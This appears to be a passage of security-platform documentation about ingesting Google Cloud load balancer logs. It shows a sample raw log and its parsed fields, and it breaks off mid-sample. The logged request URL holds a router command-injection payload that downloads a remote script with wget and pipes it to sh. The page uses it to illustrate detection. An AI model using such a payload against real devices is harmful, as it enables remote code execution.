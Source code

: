 
### Event Categories


The following table lists the data source offered by this integration.

| Data Source | Description                          |
| ----------- | ------------------------------------ |
| `Web logs` | None |





In details, the following table denotes the type of events produced by this integration.

| Name | Values |
| ---- | ------ |
| Kind | `` |
| Category | `web` |
| Type | `access` |




### Transformed Events Samples after Ingestion

This section demonstrates how the raw logs will be transformed by our parsers. It shows the extracted fields that will be available for use in the [built-in detection rules](/xdr/features/detect/rules_catalog.md) and hunting activities in the [events page](/xdr/features/investigate/events.md). Understanding these transformations is essential for analysts to create effective detection mechanisms with [custom detection rules](/xdr/features/detect/sigma.md) and to leverage the full potential of the collected data.

=== "accept_with_port.json"

    ```json
	
    {
        "message": "{\"httpRequest\": {\"latency\": \"0.001115s\", \"protocol\": \"HTTP/1.1\", \"remoteIp\": \"1.2.3.4:49194\", \"requestMethod\": \"GET\", \"requestSize\": \"201\", \"requestUrl\": \"http://5.6.7.8:80/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F1.1.1.1%3A88%2Ft%7Csh%3B%60)\", \"responseSize\": \"155\", \"status\": 503, \"userAgent\": \"Go-http-client/1.1\"}, \"insertId\": \"1t7m3mbf14kc7c\", \"jsonPayload\": {\"@type\": \"type.googleapis.com/google.cloud.loadbalancing.type.LoadBalancerLogEntry\", \"backendTargetProjectNumber\": \"projects/111111111111\", \"enforcedSecurityPolicy\": {\"configuredAction\": \"THROTTLE\", \"name\": \"policy-name\", \"outcome\": \"ACCEPT\", \"priority\": 2147483646, \"rateLimitAction\": {\"key\": \"1.2.3.4\", \"outcome\": \"RATE_LIMIT_THRESHOLD_CONFORM\"}}, \"proxyStatus\": \"error=\\\"destination_unavailable\\\"; details=\\\"failed_to_pick_backend\\\"\"}, \"logName\": \"projects/integration-gcloadbalancing/logs/loadbalancing.googleapis.com%2Fexternal_regional_requests\", \"receiveTimestamp\": \"2024-08-26T15:30:31.15568806Z\", \"resource\": {\"labels\": {\"backend_name\": \"\", \"backend_scope\": \"UNKNOWN\", \"backend_scope_type\": \"UNKNOWN\", \"backend_target_name\": \"backend-name\", \"backend_target_type\": \"BACKEND_SERVICE\", \"backend_type\": \"UNKNOWN\", \"forwarding_rule_name\": \"forwarding_rule-name\", \"matched_url_path_rule\": \"UNMATCHED\", \"network_name\": \"default\", \"project_id\": \"integration-gcloadbalancing\", \"region\": \"europe-west9\", \"target_proxy_name\": \"proxy-name\", \"url_map_name\": \"url_map-name\"}, \"type\": \"http_external_regional_lb_rule\"}, \"severity\": \"WARNING\", \"timestamp\": \"2024-08-26T15:30:27.62577Z\"}",
        "event": {
            "action": "THROTTLE",
            "category": [
                "web"
            ],
            "outcome": "ACCEPT",
            "type": [
                "access"
            ]
        },
        "@timestamp": "2024-08-26T15:30:27.625770Z",